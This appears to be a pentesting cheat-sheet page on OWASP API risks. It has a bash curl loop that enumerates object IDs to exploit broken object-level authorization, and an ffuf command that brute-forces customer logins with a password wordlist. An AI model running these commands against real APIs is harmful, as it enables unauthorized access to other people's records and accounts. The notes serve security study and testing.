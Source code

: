 ```yaml
---
layout: default
title: API attacks
permalink: /Web/API/
---
```


# OWASP API Top 10 Security Risks using a RESTful web API

## Broken Object Level Authorization (BOLA)
Web APIs allow users to request data or records by sending various parameters, including unique identifiers such as Universally Unique Identifiers (UUIDs), also known as Globally Unique Identifiers (GUIDs), and integer IDs. Failing to properly verify that a user has permission to view a specific resource through object-level authorization mechanisms can lead to security vulnerabilities.
BOLA also known as an Insecure Direct Object Reference (IDOR) vulnerability.

Mass abuse BOLA from terminal:
```
for ((i=1; i<=20; i++));
do curl -s -w "\n" -X 'GET' \
'http://$ip:$port/endpoint/'$i'' \
-H 'accept: application/json' \
-H 'Authorization: Bearer eyJhbG<SNIP>' | jq;
done
```

## Broken Authentication
No rate-limiting on the endpoint, so brute-forcing is possible.
```
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://$ip:$port/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
```
### Brute-forcing OTPs and Answers of Security Questions
If brute-forcing passwords is infeasible due to strong password policies, we can attempt to brute-force OTPs or answers to security questions to reset passwords.
